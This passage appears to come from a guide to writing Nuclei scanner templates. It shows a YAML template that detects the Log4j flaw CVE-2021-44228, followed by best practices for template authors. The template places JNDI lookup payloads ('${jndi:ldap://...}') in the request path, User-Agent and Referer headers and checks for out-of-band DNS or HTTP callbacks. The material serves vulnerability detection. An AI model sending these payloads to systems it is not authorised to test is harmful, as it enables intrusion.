 ### Example: CVE Detection Template

Example template for detecting CVE-2021-44228 (Log4j vulnerability):

```yaml
id: CVE-2021-44228

info:
  name: Apache Log4j RCE
  author: pdteam
  severity: critical
  description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker-controlled LDAP and other JNDI related endpoints.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228

requests:
  - raw:
      - |
        GET /${jndi:ldap://{{interactsh-url}}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: ${jndi:ldap://{{interactsh-url}}}
        Referer: ${jndi:ldap://{{interactsh-url}}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
          - "http"

      - type: regex
        part: interactsh_request
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'
```

This template sends requests with JNDI lookup strings in various HTTP headers and checks for DNS or HTTP callbacks to detect the Log4j vulnerability[8].

## Best Practices for Template Creation

1. Use clear and descriptive template IDs and names
2. Include accurate metadata (author, severity, description)
3. Utilize dynamic variables like `{{BaseURL}}` for flexibility
4. Implement precise matchers to reduce false positives
5. Test templates thoroughly before submission
6. Follow the [community template contributions](https://github.com/projectdiscovery/nuclei-templates/tree/main/dns)


## Additional Examples of Basic Usage
